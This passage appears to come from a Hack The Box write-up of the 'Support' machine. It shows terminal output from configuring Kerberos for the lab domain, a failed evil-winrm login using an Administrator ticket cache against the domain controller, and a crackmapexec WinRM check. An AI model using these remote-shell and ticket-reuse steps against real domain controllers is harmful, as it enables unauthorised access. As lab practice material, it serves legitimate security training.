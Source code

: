 Configure kerberos for **evil-winrm**

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ python ~/scripts/ad/configure_krb5.py support.htb DC
[*] This script must be run as root
[*] Configuration Data:
[libdefault]
        default_realm = SUPPORT.HTB

[realms]
        SUPPORT.HTB = {
                kdc = dc.support.htb
                admin_server = dc.support.htb
        }

[domain_realm]
        support.htb = SUPPORT.HTB
        .support.htb = SUPPORT.HTB


[!] Above Configuration will overwrite /etc/krb5.conf, are you sure? [y/N] y
[+] /etc/krb5.conf has been configured
```

For some reasons, it didn't work for winrm

```ruby
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ evil-winrm -r support.htb -i dc.support.htb

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information
Matching credential not found (filename: Administrator.ccache)


Error: Exiting with code 1
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ cme winrm --use-kcache support.htb
SMB         10.129.227.255  5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.129.227.255  5985   DC               [*] http://10.129.227.255:5985/wsman
```
